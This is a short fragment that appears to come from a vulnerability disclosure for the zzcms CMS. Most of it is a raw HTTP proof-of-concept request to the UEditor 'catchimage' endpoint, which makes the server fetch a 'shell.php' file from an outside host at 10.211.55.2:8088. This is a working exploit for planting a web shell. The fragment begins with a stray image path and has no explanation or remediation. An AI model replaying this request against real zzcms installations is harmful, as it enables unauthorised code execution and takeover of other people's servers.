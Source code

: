 ![image-20231007164542502](./assets/image-20231007164542502.png)

#### POC

```http
POST /plugins/ueditor/php/controller.php?action=catchimage&encode=utf-8 HTTP/1.1
Host: www.zzcms.io
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

source[]=http://10.211.55.2:8088/shell.php
```

